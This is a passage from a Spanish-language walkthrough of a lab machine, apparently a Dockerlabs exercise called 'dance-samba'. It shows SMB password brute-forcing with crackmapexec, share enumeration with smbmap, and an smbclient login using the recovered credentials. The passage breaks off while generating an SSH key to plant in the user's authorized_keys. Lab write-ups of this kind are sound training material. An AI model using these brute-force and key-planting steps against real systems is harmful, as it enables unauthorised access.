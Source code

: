 --------------
## Explotación

Creamos un fichero con los datos `macarena` y `donald` y procedemos a realizar ataques de fuerza bruta a los servicios **SMB** con **crackmapexec** y **SSH** con **hydra**:

```shell
crackmapexec smb 172.17.0.2 -u users.txt -p /usr/share/seclists/Passwords/500-worst-passwords.txt

```
Encontramos unas credenciales válidas para el servicio **SMB**.

Con las credenciales obtenidas realizamos una verificación de los recursos (shares) compartidos utilizando **smbmap**:

```shell
smbmap -H 172.17.0.2 -u macarena -p donald
-------------------------------------------
[+] IP: 172.17.0.2:445  Name: 172.17.0.2                Status: Authenticated
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  READ ONLY       Printer Drivers
        macarena                                                READ, WRITE
        IPC$                                                    NO ACCESS       IPC Service (ec2518c014ba server (Samba, Ubuntu))
```

Observamos que podemos acceder con permisos de escritura al directorio **macarena**:

```shell
smbclient //172.17.0.2/macarena -U macarena%donald

```

Realizamos una verificación del directorio compartido y considerando los ficheros encontrados podemos deducir que es directorio personal del usuario.

```shell
ls
-----------------------------------
  .                                   D        0  Wed Jan  8 19:59:34 2025
  ..                                  D        0  Wed Jan  8 19:59:34 2025
  .bash_logout                        H      220  Mon Aug 19 11:18:51 2024
  .bash_history                       H      301  Wed Jan  8 19:31:42 2025
  user.txt                            N       33  Mon Aug 19 11:20:25 2024
  .bashrc                             H     3771  Mon Aug 19 11:18:51 2024
  .profile                            H      807  Mon Aug 19 11:18:51 2024
  .cache                             DH        0  Mon Aug 19 11:40:39 2024
```

Ahora para poder realizar la conexión vía **SSH** al servicio vamos a generar una key y luego la subimos al directorio personal del usuario:

```shell
ssh-keygen -t rsa -b 4096 -f /media/sf_Dockerlabs/dance-samba/id_rsa

```
Para subir la key al directorio de usuario y luego poder usarla para conectarnos vía **SSH** realizmos manualmente lo que hace **ssh-copy-id** copiar la llave pública la fichero `authorized_keys`:

